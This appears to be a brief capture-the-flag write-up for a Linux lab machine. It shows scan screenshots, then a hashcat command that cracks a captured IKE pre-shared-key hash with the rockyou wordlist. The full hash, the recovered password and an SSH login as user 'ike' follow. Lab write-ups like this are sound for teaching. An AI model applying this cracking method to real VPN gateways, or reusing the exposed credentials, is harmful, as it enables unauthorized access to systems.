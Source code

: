 > s9 ez linux?


Scan 
-

fr wtf 

<img width="963" height="306" alt="image" src="https://github.com/user-attachments/assets/a24c9e8c-b3bb-485a-b41d-53072c12a07d" />

Note: the ssh port didnt yeild anything else after furhter scanning


<img width="554" height="262" alt="image" src="https://github.com/user-attachments/assets/22781cde-935d-44d0-bfcf-8b17694225a7" />

-



<img width="1918" height="523" alt="image" src="https://github.com/user-attachments/assets/57c45151-6c8b-4952-b7f7-d815324a5e1e" />

Hashcat craking the hash ```hashcat -m 5400 ike.txt /usr/share/wordlists/rockyou.txt ```: 
```
36a176c4d93995d619a3c6d6f1a4f1b29fc8590b350ec9093dc111dd67e41f47dea929288ed1848c9d3e99405a945489f871987dd76d12eec58e2137cd5b4128e38c49cea1d7c308753b05da513c1ea8c2296b781f352733e4bfe29cc5735a537df0caabd332f8556883fc94d204e16a6750d6590090ac31bc248e43e02aea68:27d82496452b27aab9238452329e42649d81f04e7bd7b1561b2259ce228c356cab36df3c9d13b647c6d49d319c74d6978658cbb1ffe3cbe884f01f2ae0fb8370f2435b3d4a104f73499a65e456342d5e178b37c91f4be7039548f1a838b33361328828fbccc19295400615051c0fcfb849d54bc4bafe27bec80ff4fa628a3228:95ee3f7c956c2725:6b348a56f0015a1e:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e68:fc4bea72c500e800b33719f6741436648e3ee52c:e281c604b71509e9c4337a53703c2b48acb8125a53291fe20a2773dafacff876:382d7e3d0db7beb95626e5e9c506a5d5cc149be7:freakingrockstarontheroad
```


<img width="841" height="340" alt="image" src="https://github.com/user-attachments/assets/5b396e9c-e780-41fa-b6d3-3ddd8f38194a" />

using username ike and the cracked password, im in 


